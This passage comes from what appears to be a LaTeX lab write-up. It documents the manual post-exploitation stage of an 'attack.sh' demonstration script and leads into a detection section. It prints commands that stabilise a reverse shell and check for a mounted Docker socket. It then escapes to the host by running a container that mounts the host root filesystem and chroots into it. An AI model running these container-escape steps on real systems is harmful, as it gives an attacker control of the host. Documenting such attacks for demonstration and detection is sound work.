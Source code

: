 \subsection{Post-Exploitation Instruction Block}

The script does not automate the escape. After the reverse shell connects, Step 3 prints a block of commands for the operator to run manually inside the shell. This is intentional: automating the escape would prevent the operator from inspecting intermediate states during a demonstration.

Shell stabilisation commands are printed first:

\begin{lstlisting}[language=bash]
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z, then on attacker: stty raw -echo; fg, then Enter twice
\end{lstlisting}

Socket verification:

\begin{lstlisting}[language=bash]
ls -la /var/run/docker.sock
\end{lstlisting}

Docker CLI install and escape container:

\begin{lstlisting}[language=bash]
apt-get update && apt-get install -y docker.io
docker -H unix:///var/run/docker.sock run -d \
    -v /:/hostfs --rm alpine \
    chroot /hostfs sh -c 'echo pwned > /tmp/escaped.txt'
\end{lstlisting}

Verification:

\begin{lstlisting}[language=bash]
cat /tmp/escaped.txt   # run on VM1
\end{lstlisting}

The script closes by directing the operator to run \texttt{detect.sh} on VM1, connecting the attack phase to the detection phase documented in Section~\ref{sec:detect}.

\begin{figure}[h]
\centering
\vspace{3cm}
\caption{attack.sh phase sequence: RCE confirmation, reverse shell delivery, and manual escape instructions}
\end{figure}


\section{detect.sh --- Full Walkthrough}
\label{sec:detect}

